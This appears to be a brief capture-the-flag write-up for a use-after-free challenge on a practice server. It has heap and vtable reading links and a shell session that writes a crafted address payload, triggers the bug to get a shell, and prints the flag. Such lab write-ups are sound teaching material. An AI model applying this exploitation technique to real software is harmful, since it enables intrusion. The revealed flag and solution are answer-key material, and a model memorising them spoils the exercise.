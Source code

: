 ```cpp
```

It's not easy but easy also.

Just a UAF, but I don't know about glibc's heap management mechanism and C++'s virtual functions principle.

**References:**

https://shaharmike.com/cpp/vtable-part1/https://shaharmike.com/cpp/vtable-part1/

https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/

https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/

https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/

Once you have learned these things, you can do this.

```shell
uaf@pwnable:~$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00' + 'k'*16" > /tmp/YOUR_FOLDER/heap
uaf@pwnable:~$ ./uaf 24 /tmp/YOUR_FOLDER/heap
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
```

### memcpy

10 points :D
